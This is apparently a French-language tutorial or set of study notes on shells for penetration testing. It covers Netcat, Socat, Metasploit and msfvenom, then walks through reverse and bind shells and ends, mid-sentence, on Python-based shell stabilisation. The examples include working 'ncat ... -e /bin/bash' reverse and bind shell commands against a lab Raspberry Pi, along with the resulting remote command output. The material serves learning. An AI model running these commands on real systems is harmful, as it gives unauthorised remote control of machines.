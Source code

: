 
Un shell est une interface homme machine en ligne de commande.

## __Outils__

Pour mettre en place des reverses shells, on a une mutltitude d'outils disponible.

### Netcat

**Netcat** peut être utilisé pour effectuer beaucoup de choses comme du **banner grabbing** pendant des énumérations. Mais l'usage principale qu'on va en faire est de **pouvoir recevoir une connection** depuis un port.

### Socat

**Socat** peut faire **tous ce que Netcat peut faire** mais aussi **beaucoup d'autres choses**. Les shells socat sont **plus stable** que les shells Netcat.

Les 2 problèmes de socat comparé à Netcat sont :
- La syntaxe est **plus difficile**
- Netcat est installé sur pratiquement toutes les distributions Linux par défaut. Socat est **très rarement installé** par défaut.

### Metasploit multi/handler

C'est le module **`exploit/multi/handler`** de metasploit, il a les **mêmes fonctionnalités** que Netcat ou Socat mais c'est le seul moyen d'intéragir avec un **shell meterpreter** et de gérer des **payloads metasploit**.

### Msfvenom

**[Msfvenom](Metasploit_Msfvenom)** fait aussi partie de msf - metasploit framework, mais c'est un **outil indépendant**. Il est utilisé pour créer des payloads et **aussi des reverses shell**.

### Autres

On peut **[créer des reverses shell pour des langages de programation en particulier ou pour un os particulier](Reverse_shell##__Scripts__)**.


## __Types de shell__

### Reverse shell

Un **reverse shell** est ce qui se produit quand une cible **éxécute un code qui connecte un shell à notre machine** (`/bin/bash` sur linux et `cmd.exe` sur windows). L'avantage d'un reverse shell est qu'on **contourne les règles des firewalls**, cependant le problème est qu'on est obligé de notre coté de **configurer notre réseau pour accepter ce shell**.

Notre machine

```shell
user@ip:~$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
**Mise en place du listener**.

Machine cible

```shell
root@raspberrypi:/# ncat 192.168.1.100 443 -e /bin/bash
```
**Execution du script**.

Notre machine

```shell
Connection received on 192.168.1.104 47512
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos
```
**Execution de commande sur la machine cible**.

### Bind shell

Un **blind shell** est ce qui se produit quand une cible va **démarrer un listener** attaché à un shell. Ce **port** est alors **ouvert** et on peut s'y connecter et obtenir l'execution du shell. L'avantage est qu'**on a aucune configuration à faire sur notre réseau** mais il peut être **empeché par des firewalls**.

Machine cible

```shell
root@raspberrypi:/home/thomas# ncat -vnlp 4433 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.1.100.
Ncat: Connection from 192.168.1.100:57085.
```
**Lancement du serveur netcat**.

Notre machine

```shell
user@ip:~$ nc 192.168.1.104 4433
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos

```
**Connection au port**.

### Interactive shell

Un **shell interactif** est un shell ou une **action utilisateur est requise**. 

![[shell-interactif.png]]

Ici, on peut utiliser la commande **ssh** car **on peut répondre à l'interaction**.

### Non Interactive shell

Un **shell non interactif** n'offre **pas** le luxe des shells *interactif*.

![[shell-non-interactif.png]]

On peut utiliser la commande **whoami** car elle **n'est pas interactive** mais **pas la commande ssh**.


## __Stabilisation__

Lorsque l'on a un shell sur une machine, **plusieurs problèmes** s'expose :

- On ne peut **pas utiliser les flèches**.
- On ne peut **pas utiliser la tabulations**.
- Un simple **CTRL + C tue tout notre shell**.

Pour palier ces problèmes on doit le stabiliser.

### Python

Comme python est installé dans la plupart des machines on peut l'utiliser pour stabiliser notre shell.

#### 1- Embélissement

Une fois dans notre shell la première commande à executer est **`python -c 'import pty;pty.spawn("/bin/bash")'`**.
Cela rendra notre shell plus beau mais les touches comme les flèches et les tabulations ne nous serront toujours pas accessible, tout comme le problème du